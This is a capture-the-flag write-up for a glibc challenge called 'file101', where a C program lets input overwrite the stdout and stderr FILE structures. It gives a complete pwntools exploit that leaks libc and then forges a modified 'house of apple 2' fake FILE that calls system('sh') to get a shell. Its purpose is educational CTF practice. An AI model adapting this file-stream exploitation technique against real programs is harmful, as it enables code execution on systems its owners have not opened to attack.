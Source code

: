 # file101

Attachment:

```c
#include <stdio.h>

void main() {
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);
  puts("stdout:");
  scanf("%224s", (char*)stdout);
  puts("stderr:");
  scanf("%224s", (char*)stderr);
}
```

We can write data to `stdout` and `stderr`, which allows for file stream oriented programming, specifically [house of apple 2](https://www.roderickchan.cn/zh-cn/house-of-apple-%E4%B8%80%E7%A7%8D%E6%96%B0%E7%9A%84glibc%E4%B8%ADio%E6%94%BB%E5%87%BB%E6%96%B9%E6%B3%95-2/).

Heavily insprired by [BlackHat MEA 2025 Writeup - pwn by @Rosayxy](https://rosayxy.github.io/blackhat-mea-2025-writeup-pwn/), but uses a modified house of apple 2 instead of house of cat.

Steps:

1. Override the lowest byte of `stdout._IO_write_base` to zero, so that internal data of `stdout` is leaked via stdout
2. Based on leaked data, we know the base address of libc, construct the house of apple 2 payload using the libc base address with some modifications:
    1. `scanf` stops when `0x20` is encountered, so `fake_file->file._flags` is set to `"aa;sh\x00"` instead of the typical `" sh\x00"`
    2. the offset of `_wide_vtable` within `fake_file->file._wide_data` is 0xE0, which overflows the input limitation of `%224s`; so we point `fake_file->file._wide_data` to `fake_file - 0x10` instead
3. Send the payload to get shell

Typical house of apple 2 payload:

```python
payload = flat(
    {
        # fake_file->file._flags
        # requirements:
        # (_flags & 0x0002) == 0
        # (_flags & 0x0008) == 0
        # (_flags & 0x0800) == 0
        # basic approach with spaces:
        # " sh\x00"
        # 0x20, 0x73, 0x68, 0x00
        0x00: b" sh\x00",
        # fake_file->file._wide_data->_IO_write_base
        0x18: p64(0),
        # fake_file->file._IO_write_base
        0x20: p64(0),
        # fake_file->file._IO_write_ptr
        0x28: p64(1),
        # fake_file->file._wide_data->_IO_buf_base
        0x30: p64(0),
        # fake_file->file._wide_data->_wide_vtable->__doallocate
        0x68: libc.symbols["system"],
        # fake_file->file._lock
        0x88: libc_unstrip.symbols["_IO_stdfile_0_lock"],
        # fake_file->file._wide_data
        0xA0: fake_file,
        # fake_file->file._mode
        0xC0: 0,
        # fake_file->vtable
        0xD8: libc.symbols["_IO_wfile_jumps"],
        # fake_file->file._wide_data->_wide_vtable
        0xE0: fake_file,
    }
)
```

Modified paylaod for this challenge:

```python
payload = flat(
    {
        # fake_file->file._flags
        # requirements:
        # (_flags & 0x0002) == 0
        # (_flags & 0x0008) == 0
        # (_flags & 0x0800) == 0
        # without spaces:
        # 0x61, 0x61, 0x3b, 0x73, 0x68, 0x00
        0x00: b"aa;sh\x00",
        # fake_file->file._wide_data->_IO_write_base
        0x08: p64(0),
        # fake_file->file._IO_write_base
        # fake_file->file._wide_data->_IO_buf_base
        0x20: p64(0),
        # fake_file->file._IO_write_ptr
        0x28: p64(1),
        # fake_file->file._wide_data->_wide_vtable->__doallocate
        0x68: libc.symbols["system"],
        # fake_file->file._lock
        0x88: libc_unstrip.symbols["_IO_stdfile_0_lock"],
        # fake_file->file._wide_data
        0xA0: fake_file - 0x10,
        # fake_file->file._mode
        0xC0: 0,
        # fake_file->file._wide_data->_wide_vtable
        0xD0: fake_file,
        # fake_file->vtable
        0xD8: libc.symbols["_IO_wfile_jumps"],
    }
)
```

Attack:

```python
from pwn import *
from pwnlib.libcdb import search_by_build_id

elf = ELF("./chall")
libc = elf.libc
# get debug symbols for libc
libc_unstrip_filename = search_by_build_id(libc.buildid.hex(), unstrip=True)
libc_unstrip = ELF(libc_unstrip_filename)
context.binary = elf
context.terminal = ["tmux", "split-w", "-h"]
context(arch="amd64", os="linux", log_level="debug")

p = process("./chall")

# house of apple 2
# https://www.roderickchan.cn/zh-cn/house-of-apple-一种新的glibc中io攻击方法-2/

# gdb.attach(p)
# pause()

# libc leak
# https://rosayxy.github.io/blackhat-mea-2025-writeup-pwn/
p.recvuntil(b"stdout:\n")
# 0xFBAD1800:
# _IO_MAGIC
# _IO_IS_APPENDING
# _IO_CURRENTLY_PUTTING
# override lowest byte of _IO_write_base to 0x00
# so that data is leaked within stdout
p.sendline(p64(0xFBAD1800) + p64(0) * 3)
# using local libc here, offset can be different from remote
# data starting from &stdout[0x40] is printed
p.recv(0x28)
# &stdout[0x68]: _chain, stdout->file._chain is stdin
libc_leak = u64(p.recv(6).ljust(8, b"\x00"))
libc_addr = libc_leak - libc.symbols["_IO_2_1_stdin_"]

libc.address = libc_addr
libc_unstrip.address = libc_addr
print("libc", hex(libc_addr))

# construct payload for house of apple2
# using stderr as fake_file
fake_file = libc.symbols["_IO_2_1_stderr_"]
payload = flat(
    {
        # fake_file->file._flags
        # requirements:
        # (_flags & 0x0002) == 0
        # (_flags & 0x0008) == 0
        # (_flags & 0x0800) == 0
        # basic approach with spaces:
        # " sh\x00"
        # 0x20, 0x73, 0x68, 0x00
        # 0x00: b" sh\x00",
        # without spaces:
        # 0x61, 0x61, 0x3b, 0x73, 0x68, 0x00
        0x00: b"aa;sh\x00",
        # fake_file->file._wide_data->_IO_write_base
        0x08: p64(0),
        # fake_file->file._IO_write_base
        # fake_file->file._wide_data->_IO_buf_base
        0x20: p64(0),
        # fake_file->file._IO_write_ptr
        0x28: p64(1),
        # fake_file->file._wide_data->_wide_vtable->__doallocate
        0x68: libc.symbols["system"],
        # fake_file->file._lock
        0x88: libc_unstrip.symbols["_IO_stdfile_0_lock"],
        # fake_file->file._wide_data
        0xA0: fake_file - 0x10,
        # fake_file->file._mode
        0xC0: 0,
        # fake_file->file._wide_data->_wide_vtable
        0xD0: fake_file,
        # fake_file->vtable
        0xD8: libc.symbols["_IO_wfile_jumps"],
    }
)
p.recvuntil("stderr:")
p.send(payload)

p.interactive()
```
